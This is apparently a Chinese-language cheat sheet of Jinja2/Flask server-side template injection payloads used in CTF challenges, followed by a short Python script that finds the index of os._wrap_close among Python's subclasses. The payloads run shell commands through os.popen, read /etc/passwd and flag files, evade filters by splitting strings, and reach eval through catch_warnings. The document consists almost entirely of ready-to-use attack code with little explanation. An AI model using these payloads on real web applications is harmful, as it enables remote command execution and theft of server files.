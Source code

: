 ```
{{config.__class__.__init__.__globals__['os'].popen('ls /').read()}}
{{lipsum.__globals__.get("os").popen("cd ..;cd ..;cd ..;ls;cat flag.txt").read()}}
{{url_for.__globals__.os.popen('whoami').read()}}
{{lipsum.__globals__.os.popen('whoami').read()}}

{{ }}
config|attr('__in''it__')|attr('__glo''bals__')|attr('__geti''tem__')('os')|attr('popen')('ca''t /f''lag')|attr('re''ad')()

cycler["__in"+"it__"]["__glo"+"bals__"]  ["__bui"+"ltins__"].__import__('builtins').open('/flag').read(1)[0]=='c'
cycler["__in"+"it__"]["__glo"+"bals__"]  ["__bui"+"ltins__"].__import__('builtins').open('/flag').read()

#读取文件与写文件类
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
#执行命令
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```




^
## **找利用类**

若经过```{{''.__class__.__base__.__subclasses__()}}```，用工具或手工查询存在的利用类和位置后，可以借助的类反射调用方法：

下面是快速找位置脚本：
```
import json

# 功能：快速找利用类的位置

# 将{{''.__class__.__base__.__subclasses__()}}的结果放a里
a = """
<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>
"""

num = 0
allList = []

result = ""
for i in a:
    if i == ">":
        result += i
        allList.append(result)
        result = ""
    elif i == "\n" or i == ",":
        continue
    else:
        result += i

for k, v in enumerate(allList):
    if "os._wrap_close" in v: # 看你要找谁的位置
        print(str(k) + "--->" + v)
```